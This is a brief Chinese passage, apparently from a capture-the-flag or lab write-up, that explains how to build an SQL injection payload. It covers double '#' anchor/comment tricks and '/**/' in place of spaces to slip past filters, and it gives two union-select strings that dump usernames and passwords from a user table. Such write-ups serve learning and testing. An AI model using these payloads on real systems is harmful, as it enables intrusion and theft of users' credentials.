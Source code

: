 ![22-4.png](22-4.png)

接下来构造注入 payload:

> 为什么要用两个 `#` : 在 url 中 `#` 表示锚点，表示网页中的一个位置，比如 `http:xxx/index.html#aaa`，浏览器读取这个 url，会将 aaa 移到可视位置。在第一个 `#`，都会被视为位置标识符，不会被发送到服务端, 第二个 `#` 作为注释符, 完成注入;

> 用 `/**/` + `()` 来代替空格;

```
爆出 name:
myapp#'union/**/select/**/group_concat(name)from(user)#

爆出 pwd:
myapp#'union/**/select/**/group_concat(pwd)from(user)#
```
